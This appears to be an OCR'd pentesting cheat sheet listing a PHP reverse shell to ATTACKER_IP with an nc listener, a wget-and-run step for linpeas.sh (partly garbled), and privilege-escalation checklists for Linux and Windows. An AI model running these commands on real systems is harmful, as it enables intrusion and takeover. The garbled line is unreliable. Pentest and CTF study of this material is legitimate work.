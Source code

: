 **Credentials / Secrets Found**
```text
user:pass pairs, API keys, JWTs, config files
```

**Reverse Shell**
```bash
# PHP
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# nc listener
rlwrap -cAr nc -lvnp 4444
```

---

## 📈 Privilege Escalation (Linux)

Checklist:
- [ ] `id; whoami; hostname; ip a; ss -tulpn`
- [ ] `sudo -l` (GTFOBins)
- [ ] SUID: `find / -perm -4000 -type f 2>/dev/null`
- [ ] Cron / timers: `ls -la /etc/cron*`; `systemctl list-timers`
- [ ] Writable paths in `$PATH`
- [ ] Capabilities: `getcap -r / 2>/dev/null`
- [ ] Services & configs: `ps aux`, `netstat -tunlp`
- [ ] Kernel & exploits (last resort): `uname -a`
- [ ] LinPEAS/LinEnum

Common one‑liners:
```bash
(find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null) | tee suid.txt
GET https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
town -O /tmp/linpeas.sh; chmod +x /tmp/linpeas.sh; /tmp/linpeas.sh
```

---

## 📊 Privilege Escalation (Windows)

Checklist:
- [ ] `whoami /priv`; `whoami /groups`
- [ ] `systeminfo` (hotfixes) / `wmic qfe list`
- [ ] Unquoted services / weak service perms
- [ ] AlwaysInstallElevated
- [ ] Scheduled tasks
- [ ] Interesting shares: `dir /s /b C:\*.kdbx *.config *.xml`
- [ ] SharpHound/BloodHound for AD paths
- [ ] `winPEASx64.exe`

Useful commands:
```powershell
# upload tools via evil-winrm
upload winPEASx64.exe C:\Users\Public\winPEASx64.exe
.\n# service perms
sc qc <ServiceName>
sc sdshow <ServiceName>
```

---